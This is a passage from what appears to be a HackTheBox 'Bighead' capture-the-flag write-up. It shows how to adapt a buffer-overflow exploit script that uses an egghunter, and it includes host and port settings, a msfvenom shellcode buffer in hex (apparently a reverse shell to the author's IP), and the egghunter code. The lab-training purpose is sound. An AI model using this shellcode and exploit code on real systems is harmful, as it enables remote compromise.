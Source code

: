 ![](/images/hackthebox/bighead/77.png)
<br> But I didn't like that I should generate a new one if I wanted to change the egg, here's how the tool is doing it :
![](/images/hackthebox/bighead/78.png)
<br> We can easily add this to the exploit itself. 
```
host = '10.10.10.112'
port = 80
egg = 'R1ck'
```
<br> `host` is for the ip of the machine, `port` is for the port and `egg` is to hold the value of the egg. After that comes the `buf` variable generated by `msfvenom` (this is the my shellcode you should generate a new one with your ip and listening port) :
```
buf =  ""
buf += "d9c7d97424f45a2bc9bb9f0948"
buf += "3bb15283c204315a1303c51aaa"
buf += "ce05f4a831f505cdb81034cddf"
buf += "5167fd94378476f8a31ffad5c4"
buf += "a8b103eb29e9706aaaf0a44c93"
buf += "3ab98dd42730df8d2ce7cfba79"
buf += "3464f06c3c99418e6d0cd9c9ad"
buf += "af0e62e4b7534fbe4ca73b4184"
buf += "f9c4eee93537ee2ef1a8854601"
buf += "549e9d7b822b05db418be1dd86"
buf += "4a62d163182cf672cd4702fef0"
buf += "878244d703ce1f7612aace8744"
buf += "15ae2d0fb8bb5f52d508526c25"
buf += "07e51f17885db71b4178405b78"
buf += "3cdea2833df760d76d6f4058e6"
buf += "6f6d8da93fc17e0aefa12ee2e5"
buf += "2d101206e439b9fd6f4c34ee74"
buf += "384a108e81c3f6fae185a19298"
buf += "8f3902641a4404eea9b9cb07c7"
buf += "a9bce792936bf708bbf06ad73b"
buf += "7e97406cd76999f8c5d0331e14"
buf += "847c9ac375822381c2a0335fca"
buf += "ec670f9dbad1e9770d8ba324c7"
buf += "5b3507d81d3a42aec18b3bf7fe"
buf += "24acff87584cff52d97c4afe48"
buf += "15136bc978a4460e852762ef72"
buf += "3707ea3ffff486506afa3550bf"

```
<br> I created a variable to hold the final shellcode (egg doubled + shellcode) and another variable for the egghunter :
```
shellcode = (egg * 2) + binascii.unhexlify(buf)
egghunter = "6681caff0f42526a0258cd2e3c055a74efb8" + binascii.hexlify(egg) + "8bfaaf75eaaf75e7ffe7"
```